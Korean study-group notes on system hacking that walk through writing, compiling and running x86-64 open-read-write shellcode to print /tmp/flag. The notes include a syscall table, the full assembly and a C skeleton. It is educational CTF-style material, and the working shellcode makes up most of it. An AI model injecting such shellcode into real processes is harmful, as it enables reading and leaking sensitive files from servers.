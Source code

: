 2025 하계스터디 시스템해킹 1주차: 셸코드
==============================

1.셸코드(Shellcode) 개념
-----------------

**셸코드** 는 익스플로잇을 위해 특별히 제작된 어셈블리 코드이다.

일반적으로 셸을 획득하는 것이 목적이지만 특정 기능을 수행하는 데 사용될 수도 있다.

시스템 해킹에서 매우 중요하며 해커가 직접 작성한 셸코드를 실행할 수 있다면 원하는 어셈블리 코드를 실행시킬 수 있다.

어셈블리는 기계어와 거의 일대일 대응이므로 CPU에 원하는 명령을 직접 내릴 수 있다.

셸코드는 공격 대상 아키텍처와 운영체제에 따라 다르게 작성되며, 
공유되는 셸코드는 범용적으로 작성되어 시스템 환경을 완전히 반영하지 못할 수 있으므로 최적의 셸코드는 직접 작성하는 것이 권장된다.



2.orw 셸코드 작성
----------------------

`/tmp/flag` 파일 읽고 출력하는 셸코드는 다음과 같다.

```c
char buf[0x30];
int fd = open("/tmp/flag", RD_ONLY, NULL);
read(fd, buf, 0x30);
write(1, buf, 0x30);
```


**시스템 콜(Syscall) 테이블** 은 

  * `open`: `rax` 0x02, `arg0(rdi)` const char \*filename, `arg1(rsi)` int flags, `arg2(rdx)` umode\_t mode
  * `read`: `rax` 0x00, `arg0(rdi)` unsigned int fd, `arg1(rsi)` char \*buf, `arg2(rdx)` size\_t count
  * `write`: `rax` 0x01, `arg0(rdi)` unsigned int fd, `arg1(rsi)` const char \*buf, `arg2(rdx)` size\_t count

----------------------------------


먼저  **`open("/tmp/flag", O_RDONLY, NULL)`** 부분 구현을 보면

* **`/tmp/flag` 문자열 메모리에 위치시키기:**
      * `/tmp/flag`의 리틀 엔디언 형태인 `0x67616c662f706d742f`를 `push` 명령을 통해 스택에 넣음
  (8바이트 단위로 push 가능하므로 `0x67`을 먼저 push 후 전체 주소를 push)
      * `rdt`가 이를 가리키도록 `rsp`를 `rdi`로 옮김
  * **`O_RDONLY` 설정:**
      * `O_RDONLY`는 0이므로 `rsi`를 0으로 설정 (`#define O_RDONLY 0` 참조)
  * **`mode` 설정:**
      * 파일을 읽을 때 `mode`는 의미가 없으므로 `rdx`를 0으로 설정
  * **`rax` 설정 및 `syscall` 호출:**
      * `open` 시스템 콜을 호출하기 위해 `rax`를 2로 설정

        
**`open` 구현 어셈블리 코드:**

```assembly
push 0x67
mov rax, 0x616c662f706d742f
push rax
mov rdi, rsp       ; rdi = "/tmp/flag"
xor rsi, rsi       ; rsi = 0 ; O_RDONLY
xor rdx, rdx       ; rdx = 0
mov rax, 2         ; rax = 2 ; syscall_open
syscall            ; open("/tmp/flag", 0, 0)
```

-----------------------------

**`read(fd, buf, 0x30)`** 구현 부분을 보면

  * **`fd` 설정:**
      * `open` 시스템 콜의 반환 값(파일 디스크립터)은 `rax`에 저장되므로 `rax`에 저장된 `fd` 값을 `rdi`에 대입
  * **`buf` 설정:**
      * `rs`는 파일에서 읽어온 데이터를 저장할 주소를 가리킴.
        스택 포인터 `rsp`에서 `0x30`만큼 감소시킨 주소를 `rsi`에 대입하여 버퍼로 사용
  * **`len` 설정:**
      * 읽어올 데이터의 길이인 `0x30`을 `rdx`에 설정
  * **`rax` 설정 및 `syscall` 호출:**
      * `read` 시스템 콜을 호출하기 위해 `rax`를 0으로 설정


**`read` 구현 어셈블리 코드:**

```assembly
mov rdi, rax       ; rdi = fd
sub rsi, 0x30      ; rsi = rsp-0x30 ; buf
mov rdx, 0x30      ; rdx = 0x30 ; len
mov rax, 0         ; rax = 0 ; syscall_read
syscall            ; read(fd, buf, 0x30)
```

--------------------------------------

**`write(1, buf, 0x30)`** 부분 구현을 보면 

  * **`fd` 설정:** 출력을 `stdout` (표준 출력)으로 보낼 것이므로 `rdi`를 1로 설정 (`fd = stdout`)
  * **`buf`와 `len` 설정:** `read` 시스템 콜에서 사용했던 `rsi` (버퍼 주소)와 `rdx` (길이) 값을 그대로 사용
  * **`rax` 설정 및 `syscall` 호출:** `write` 시스템 콜을 호출하기 위해 `rax`를 1로 설정


**`write` 구현 어셈블리 코드:**

```assembly
mov rdi, 1         ; rdi = 1 ; fd = stdout
mov rax, 0x1       ; rax = 1 ; syscall_write
syscall            ; write(fd, buf, 0x30)
```

--------------------------------


**`open`, `read`, `write` 시스템 콜 구현 코드를 모두 합친 최종 어셈블리 코드** 는 

```assembly
; Name: orw.S
push 0x67
mov rax, 0x616c662f706d742f
push rax
mov rdi, rsp       ; rdi = "/tmp/flag"
xor rsi, rsi       ; rsi = 0 ; RD_ONLY
xor rdx, rdx       ; rdx = 0
mov rax, 2         ; rax = 2 ; syscall_open
syscall            ; open("/tmp/flag", RD_ONLY, NULL)

mov rdi, rax       ; rdi = fd
mov rsi, rsp
sub rsi, 0x30      ; rsi = rsp-0x30 ; buf
mov rdx, 0x30      ; rdx = 0x30 ; len
mov rax, 0         ; rax = 0 ; syscall_read
syscall            ; read(fd, buf, 0x30)

mov rdi, 1         ; rdi = 1 ; fd = stdout
mov rax, 0x1       ; rax = 1 ; syscall_write
syscall            ; write(fd, buf, 0x30)
```



3.orw 셸코드 컴파일 및 실행
-------------------------

* **실행 가능한 파일 형식:** 운영체제는 실행 가능한 파일의 형식을 정의하며
  윈도우의 PE, 리눅스의 ELF가 대표적이다. ELF는 헤더와 기타 데이터(기계어 코드 포함)로 구성된다.
  * `orw.S`는 순수 아스키 어셈블리 코드이므로 이 자체로는 리눅스에서 실행될 수 없으며,
    CPU가 이해할 수 있는 ELF 형식으로 변환해야 한다.
  * **컴파일 방법:** 어셈블리 코드를 ELF 형태로 변환하기 위해 gcc 컴파일러를 사용한다.
    셸코드를 실행할 수 있는 "스켈레톤 코드"라고 불리는 C 언어 파일에 셸코드를 삽입하여 컴파일한다.

---------------------------------------

### **스켈레톤 코드(`sh-skeleton.c`)**

`__asm__` 블록을 사용하여 인라인 어셈블리 형태로 셸코드를 포함하고 
main 함수에서 `run_sh()` 함수를 호출하여 셸코드를 실행한다. 
스켈레톤 코드에는 `exit(0)` 시스템 콜 (`xor rdi, rdi; mov rax, 0x3c; syscall`)이 포함되어 있다.

```c
// File name: sh-skeleton.c
// Compile Option: gcc -o sh-skeleton sh-skeleton.c -masm=intel
__asm__(
    ".global run_sh\n"
    "run_sh:\n"
    "Input your shellcode here.\n" // 여기에 실제 셸코드가 들어감
    "Each line of your shellcode should be\n"
    "seperated by '\\n\\n'\n"
    "xor rdi, rdi\n"
    "mov rax, 0x3c\n" // rax = sys_exit
    "syscall\n"      // # exit(0)
);
void run_sh();
int main() { run_sh(); }
```

-------------------------------------------------------------

![image](https://github.com/user-attachments/assets/07c5b2dd-6447-40ac-9e13-f8093e467029)

실제 `orw.S`의 내용을 스켈레톤 코드의 `__asm__` 블록에 삽입해 완성했다. 
마지막에 `exit(0)` 시스템 콜이 포함되어 셸코드 실행 후 정상 종료된다.

![image](https://github.com/user-attachments/assets/7431f2be-1c96-45ae-a2a1-a6a27c6fb47c)

 * 셸코드가 `/tmp/flag` 파일을 성공적으로 읽고 출력하는지 확인하기 위해 먼저 `/tmp/flag` 파일을 생성한다. 
 * gcc -o orw orw.c -masm=intel 명령어로 orw.c를 컴파일한 후 ./orw 로 실행한다.
 * 실행 결과로 `/tmp/flag` 파일에 저장된 문자열(`flag{this_is_open_read_write_shellcode!}`)이 출력되는 것을 확인할 수 있다.
 * 만약 공격 대상 시스템에서 이 셸코드를 실행할 수 있다면 서버의 주요 정보를 유출할 수 있을 것이다.




